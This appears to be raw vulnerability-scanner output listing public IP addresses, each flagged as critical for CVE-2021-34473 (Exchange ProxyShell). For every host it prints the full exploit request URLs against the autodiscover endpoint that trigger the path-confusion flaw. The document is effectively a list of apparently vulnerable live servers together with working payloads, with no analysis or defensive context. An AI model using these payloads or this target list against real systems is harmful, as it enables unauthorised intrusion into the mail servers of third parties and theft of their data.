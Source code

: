 [CVE-2021-34473] [http] [critical] https://178.57.79.153/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 178.47.34.62  
  
---  
[CVE-2021-34473] [http] [critical] https://178.47.34.62/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://178.47.34.62/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 178.57.192.95  
  
---  
[CVE-2021-34473] [http] [critical] https://178.57.192.95/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://178.57.192.95/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 185.15.190.155  
  
---  
[CVE-2021-34473] [http] [critical] https://185.15.190.155/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://185.15.190.155/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 178.57.79.152  
  
---  
[CVE-2021-34473] [http] [critical] https://178.57.79.152/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 185.195.152.22  
  
---  
[CVE-2021-34473] [http] [critical] https://185.195.152.22/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://185.195.152.22/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 185.207.25.84  
  
---  
[CVE-2021-34473] [http] [critical] https://185.207.25.84/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  